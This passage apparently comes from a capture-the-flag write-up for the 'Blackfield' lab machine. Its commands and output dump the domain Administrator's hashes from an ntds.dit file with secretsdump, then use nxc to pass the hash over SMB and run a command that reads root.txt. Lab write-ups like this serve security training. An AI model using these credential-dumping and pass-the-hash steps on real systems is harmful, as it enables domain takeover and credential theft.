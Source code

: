 Now the ***Administrator*** hash can be easily dumped which let us compromise the ***root.txt*** file:

```bash
# dump the administrator hash
$ secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Admin
Administrator:500:aad3b435b51404eeaad3b435b51404ee:18<REDACTED>ee:::
Administrator:aes256-cts-hmac-sha1-96:dbd84e6cf174af55675b4927ef9127a12aade143018c78fbbe568d394188f21f
Administrator:aes128-cts-hmac-sha1-96:8148b9b39b270c22aaa74476c63ef223
Administrator:des-cbc-md5:5d25a84ac8c229c1

# compromise the root.txt file
$ nxc smb 10.10.10.192 -u administrator -H 18<REDACTED>ee -x 'type c:\users\administrator\desktop\root.txt'
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\administrator:18<REDACTED>ee (Pwn3d!)
SMB         10.10.10.192    445    DC01             [+] Executed command via wmiexec
SMB         10.10.10.192    445    DC01             43<REDACTED>cb
```